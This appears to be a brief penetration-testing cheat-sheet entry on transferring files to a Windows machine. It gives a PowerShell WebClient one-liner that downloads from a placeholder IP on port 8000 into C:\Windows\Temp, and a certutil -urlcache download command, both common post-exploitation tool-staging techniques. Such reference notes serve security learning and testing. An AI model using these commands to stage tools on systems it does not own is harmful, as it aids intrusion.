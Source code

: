 # Transferring files

Download files using Powershell one liner

```powershell
powershell -Command "(new-object System.Net.WebClient).DownloadFile('http://<ip address>:8000/w<file name>', 'C:\Windows\Temp\<filename>')"
```

Download using certutil

```bash
certutil -urlcache -f <url>/<filename>
```

